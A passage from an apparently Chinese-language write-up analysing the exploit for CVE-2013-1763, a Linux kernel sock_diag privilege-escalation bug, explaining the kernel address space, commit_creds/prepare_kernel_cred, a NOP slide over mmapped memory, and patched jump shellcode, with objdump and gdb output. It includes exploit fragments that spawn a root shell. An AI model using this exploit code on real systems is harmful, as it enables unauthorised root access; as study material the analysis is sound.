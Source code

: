 ``` C
    return -1;
  }

  printf("uid=%d, euid=%d\n",getuid(), geteuid() );

  if(!getuid())
    system("/bin/sh");
}
```
## 6. exploit代码分析
在分析之前，有些概念要澄清一下，在linux系统中，用户空间和内核空间是独立存在的。在一个32位的linux系统中，每个进程会虚拟出4G的内存空间，其中3G是用户空间，1G是内核空间，用户空间的地址范围是0&times;00000000 到 0xBFFFFFFF，内核空间的地址是0xC0000000 到 0xFFFFFFFF。内核地址空间由所有进程共享，但只有运行在内核态的进程才能访问，用户进程可以通过系统调用切换到内核态访问内核空间，进程运行在内核态时所产生的地址都属于内核空间。`commit_creds`和`prepare_kernel_cred`均为内核函数，如果要执行他们就应该切换到内核状态运行。当执行内核函数`__sock_diag_rcv_msg`是处于内核态的，所以这个时候调用执行kernel_code函数就可以取得root权限。

那么如何调用kernel_code函数呢？所有我们mmap了一块从0x10000开始0x120000大小的内存空间，然后将这块空间写满NOP指令，将跳转执行kernel_code的代码放在这块区域的最后面，也就是说，只要跳转执行到这块内存区域的（除了jump代码块内部）都会顺利跑到kernel_code函数。这种方法叫做__NOP slide__，就像坐滑滑梯一样，自然滑到底部。jump这一段代码的分析如下：
``` C
char jump[] = "\x55\x89\xe5\xb8\x11\x11\x11\x11\xff\xd0\x5d\xc3"; // jump_payload in asm
  unsigned long *asd = &jump[4];
  *asd = (unsigned long)kernel_code;

int jump_payload_not_used(void *skb, void *nlh)
{
  asm volatile (
    "mov $kernel_code, %eax\n"
    "call *%eax\n"
  );
}

fengguoqing@VirtualBox:~/Downloads$ gcc CVE-2013-1763.c
CVE-2013-1763.c: In function ‘main’:
CVE-2013-1763.c:148:26: warning: initialization from incompatible pointer type [enabled by default]
fengguoqing@VirtualBox:~/Downloads$ objdump -D a.out
….
08048763 <jump_payload_not_used>:
 8048763:  55                     push   %ebp
 8048764:  89 e5                  mov    %esp,%ebp
 8048766:  b8 3c 87 04 08         mov    $0x804873c,%eax
 804876b:  ff d0                  call   *%eax
 804876d:  5d                     pop    %ebp
 804876e:  c3                     ret   
….

(gdb) p/x jump
$2 = {0x55, 0x89, 0xe5, 0xb8, 0x3c, 0x87, 0x4, 0x8, 0xff, 0xd0, 0x5d, 0xc3, 0x0} //最后发现0x11被填充成了kernel_code的地址
(gdb) p kernel_code
$4 = {int ()} 0x804873c <kernel_code>
```
问题的关键变成了如何才能跳转到这一块内存区域呢？先看看下面这结构体的定义：
``` C
struct nlmsghdr {
      __u32       nlmsg_len;  /* Length of message including header */
      __u16       nlmsg_type; /* Message content */
      __u16       nlmsg_flags;    /* Additional flags */
      __u32       nlmsg_seq;  /* Sequence number */
      __u32       nlmsg_pid;  /* Sending process port ID */
  };

  struct unix_diag_req {
      __u8    sdiag_family;
```